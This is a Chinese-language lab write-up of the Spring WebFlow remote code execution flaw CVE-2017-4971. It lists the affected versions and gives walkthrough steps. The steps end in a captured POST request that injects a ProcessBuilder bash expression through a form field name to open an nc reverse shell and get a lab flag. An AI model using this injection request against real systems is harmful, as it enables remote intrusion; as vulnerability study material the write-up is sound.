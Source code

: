 # [Spring WebFlow 远程代码执行漏洞（CVE-2017-4971）by ](./CVE-2017-4971.md)[xiajibaxie](https://github.com/xiajibaxie)

## 漏洞描述

 Spring WebFlow 在 Model 的数据绑定由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞。

## 影响版本

Spring WebFlow 2.4.0 – 2.4.4

## 利用流程

1选择左侧用户名登陆

 ![1](./1.jpg)

2访问路径 `/hotels/1` 点击 `Book Hotel` 

![2](./2.jpg)

 3填写相应信息后点击 `Proceed` 

![3](./3.jpg)

4点击 `Confirm` 抓包

![4](./4.jpg)

5将 nc 的反弹 shell 转换成 url 编码

![5](./5.jpg)

6.发送 poc 反弹 shell 获得 flag 

```
POST /hotels/booking?execution=e2s2 HTTP/1.1
Host: 10.10.11.20:43156
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.20:43156/hotels/booking?execution=e2s2
Cookie: JSESSIONID=62C4972DBE024CCE5D86154E13B17537
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

_eventId_confirm=&_csrf=13d9614f-d52c-4a5c-be7c-49b1947225a9&_(new java.lang.ProcessBuilder("bash","-c","url转码poc")).start()=vulhub
```

![6](./6.jpg)



## 参考

https://www.jianshu.com/p/ad391cb9a95b

https://paper.seebug.org/322/

